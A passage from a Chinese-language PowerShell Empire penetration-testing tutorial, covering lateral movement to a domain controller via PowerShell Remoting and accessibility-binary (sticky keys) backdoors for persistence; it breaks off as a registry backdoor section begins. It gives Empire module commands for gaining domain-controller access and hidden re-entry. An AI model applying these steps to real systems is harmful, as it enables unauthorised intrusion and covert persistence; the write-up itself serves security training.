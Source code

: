```
usemodule management/spawn
```

--图片--

新的会话返回，说明会话创建成功。可以返回agents，通过list查看。

--图片--

### 4.2.5 Powershell Remoting
powershell remoting是PowerShell的远程管理功能，开启Windows远程管理服务WinRM系统后会监听5985端口，该服务默认在Windows Server2012中是启动的，在Windows Server 2003/2008/2008 R2中需要手动启动。

开启方法可参考： http://www.361way.com/winrm-quickconfig/6370.html

因为在本次内网环境中，域控就是win2012，默认开启这个服务，直接通过以下命令即可得到DC权限。

```
usemodule lateral_movement/invoke_psremoting
set Listener c1ay
set ComputerName DC
```

--图片--

会话成功反弹，通过agents可以查看

--图片--

# 五、后门
后门是指绕过安全验证而获取对程序或系统访问权的方法。主要目的是方便以后再次秘密进入或控制系统。

## 5.1 权限持久性劫持Shift后门
输入如下命令即可该模块，输入info查看具体的设置信息。

```
usemodule lateral_movement/invoke_wmi_debugger
info
```

--图片--

在win7登录框连续按五次shift键即可反弹会话

--图片--

Sethc.exe可以替换成以下几项：

```
Utilman.exe（使用Win+U组合键）
Osk.exe （屏幕上的键盘：使用Win + U启动组合键）
Narrator.exe （启动讲述人：使用Win + U 启动组合键）
Magnify.exe（放大镜：使用Win + U 组合键启动）
```

## 5.2 注册表注入后门
输入如下命令即可使用该模块，该模块运行后会在目标主机启动项里增加一个命令，命令如下：

